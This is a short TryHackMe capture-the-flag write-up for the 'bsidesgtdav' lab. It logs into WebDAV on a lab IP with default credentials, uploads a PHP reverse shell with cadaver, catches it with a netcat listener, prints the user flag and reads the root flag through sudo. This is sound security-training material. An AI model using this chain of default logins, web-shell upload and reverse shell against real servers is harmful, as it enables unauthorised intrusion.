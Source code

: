 # bsidesgtdav
Tryhackme (bsidesgtdav) Write Up

webdav default login

http://10.10.135.159/webdav

Username: webdav
Password: xampp


Using (*cadaver*)

put reverse-shell.php

http://10.10.135.159/webdav/reverse-shell.php

nc -lvnp 1234


![image](https://user-images.githubusercontent.com/80600420/147095168-66d56a92-9f49-49f8-9ddd-fbb13fbbdfcf.png)

/home/merlin
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a

sudo -l

![image](https://user-images.githubusercontent.com/80600420/147095353-32624d5f-1498-47ca-a022-5b5d8e1e5cc7.png)

sudo cat /root/root.txt
